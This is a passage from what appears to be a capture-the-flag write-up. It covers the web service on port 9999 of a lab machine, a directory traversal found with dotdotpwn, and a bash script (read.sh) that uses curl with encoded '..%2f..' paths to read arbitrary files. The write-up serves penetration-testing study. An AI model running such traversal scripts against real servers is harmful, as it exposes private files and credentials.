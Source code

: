 ```
|     Content-length: 4871
|     Content-type: text/html
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <title>Login V10</title>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <!--===============================================================================================-->
|     <link rel="icon" type="image/png" href="images/icons/favicon.ico"/>
|     <!--===============================================================================================-->
|     <link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
|     <!--===============================================================================================-->
|     <link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
|_    <!--===============================================
```

OK. `9999/tcp` is some kind of `http` service. This is what it looks like.

{% include image.html image_alt="bf3824a9.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/bf3824a9.png" %}

### Directory Traversal

The site is vulnerable to directory traversal attack. The following is a selected output from `dotdotpwn`.

{% include image.html image_alt="34db590c.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/34db590c.png" %}

Seeing is believing. Armed with this insight, I can probably write a `bash` script to read any file, where I have permission, from the machine.

<div class="filename"><span>read.sh</span></div>

~~~~bash
#!/bin/bash

HOST=10.10.10.148
PORT=9999
PAYLOAD="${1//\/%2f/}"

OUT=$(curl -s \
           "http://$HOST:$PORT/..%2f..$PAYLOAD")

if grep -E '^<' <<<"$OUT" &>/dev/null; then
  echo $OUT \
  | html2text
else
  echo "$OUT"
fi
~~~~
